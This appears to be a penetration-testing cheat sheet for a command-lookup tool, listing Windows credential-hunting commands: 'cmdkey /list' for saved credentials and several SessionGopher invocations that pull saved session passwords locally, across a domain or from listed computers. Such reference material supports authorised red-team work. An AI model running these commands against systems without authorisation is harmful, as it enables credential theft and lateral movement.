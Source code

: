 # smdkey

% cmdkey, password hunting

## cmdkey -  list saved credentials
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_HUNT 

```
cmdkey /list
```


# SessionGopher

% SessionGopher, password hunting

## SessionGopher -  locally
#plateform/windows  #target/local #cat/CREDENTIAL-ACCESS/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -Thorough
```

## SessionGopher -  all domain
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -AllDomain -u <domain>\<user> -p <password>
```

## SessionGopher -  Computer 
#plateform/windows  #target/local #cat/CREDENTIAL-ACCESS/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -Target <computer> -Thorough
```

## SessionGopher -  Computer list
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -iL computerlist.txt -u <domain>\<user> -p <password>
```